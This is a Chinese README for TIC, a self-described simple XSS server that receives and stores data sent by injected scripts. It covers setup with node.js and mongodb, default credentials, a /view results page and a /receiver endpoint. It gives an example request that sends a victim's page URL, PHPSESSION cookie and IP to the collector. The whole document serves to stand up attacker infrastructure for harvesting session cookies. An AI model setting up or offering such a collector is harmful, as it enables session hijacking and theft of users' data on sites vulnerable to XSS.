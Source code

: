 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1. 安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1
2. 安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```
3. 进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
>如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
4. 本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun . 你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
>if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
5. 如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6. 关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
> example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  除了GET外,POST也可以.
7. 结果分为两大部分,第一部分为header,第二部分为request
>header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
  request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.
